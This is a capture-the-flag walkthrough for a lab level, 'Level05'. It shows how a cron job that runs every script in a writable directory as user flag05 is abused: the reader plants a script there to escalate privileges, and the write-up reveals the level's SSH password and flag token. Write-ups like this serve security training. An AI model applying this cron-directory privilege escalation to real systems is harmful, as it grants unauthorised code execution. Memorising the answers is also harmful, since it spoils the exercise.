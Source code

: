 # Level05

## How to Login

To access the system, use the following SSH command:

```bash
ssh level05@192.168.56.104 -p 4242
password: ne2searoevaevoem4ov4ar8ap
```

## How to Get the Flag

Upon logging in, you'll see the message:

```
You have new mail.
```

### Finding the Email Service

To locate the email service, use the following command to find files named "mail":

```bash
find / -name "mail" 2>/dev/null
```

This search will reveal the directory `/var/mail`, where you'll find a file named `level05`. 

### Analyzing the Cron Job

When you `cat` the `level05` file, you'll see the following cron job configuration:

```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This cron job runs every two minutes as the `flag05` user, executing the script `/usr/sbin/openarenaserver`.

### Examining the `openarenaserver` Script

Next, inspect the contents of the `openarenaserver` script:

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script iterates over all files in `/opt/openarenaserver/`, executes them with a time limit of 5 seconds using `bash`, and then removes them.

### Exploiting the Script

To exploit this, create a script in the `/opt/openarenaserver/` directory:

1. **Navigate to the Directory**:

   ```bash
   cd /opt/openarenaserver/
   ```

2. **Create the Exploit Script**: Use `nano` to create a file named `run.sh` with the following content:

   ```bash
   #!/bin/bash
   getflag > /tmp/flag
   ```

3. **Make the Script Executable**:

   ```bash
   chmod +x run.sh
   ```

4. **Wait for the Cron Job**: The cron job will run every two minutes, execute your `run.sh` script, and create a file named `flag` in `/tmp`.

5. **Retrieve the Flag**: Although you cannot list the contents of `/tmp` directly due to permission issues, you can read the `flag` file with `cat`:

   ```bash
   cat /tmp/flag
   ```

   This will display the contents of the `flag` file:

   ```
   Check flag.Here is your token : viuaaale9huek52boumoomioc
   ```

You have successfully completed Level05.